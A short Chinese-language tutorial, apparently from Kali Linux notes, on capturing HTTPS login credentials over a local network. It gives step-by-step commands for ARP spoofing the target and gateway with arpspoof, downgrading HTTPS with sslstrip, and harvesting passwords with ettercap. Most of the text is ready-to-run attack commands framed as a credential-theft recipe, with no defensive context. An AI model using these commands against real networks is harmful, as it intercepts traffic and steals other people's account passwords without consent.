

# 005.arpspoof+ettercap+sslstrip获取https账号密码
---

攻击者网卡:eth0  
攻击者ip: 192.168.1.2  
目标ip: 192.168.1.3  
网关ip: 192.168.1.1

## **配置ettercap**

```
vim /etc/ettercap/etter.conf
```



kali 2016.1默认在，177行，将177，178行前面的#去掉。

## **获取账号密码**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启一个新的终端

```bash
sslstrip -a -f -k
```

开启一个新的终端

```bash
ettercap -Tq -i eth0
```

> 此时如果192.168.1.3在登录https网站，目标主机就会出现证书错误，如果选择了继续，账号密码就会被<kbd>ettercap</kbd>获取到

注：  
> <kbd>sslstrip</kbd>可以将https链接转换为http连接


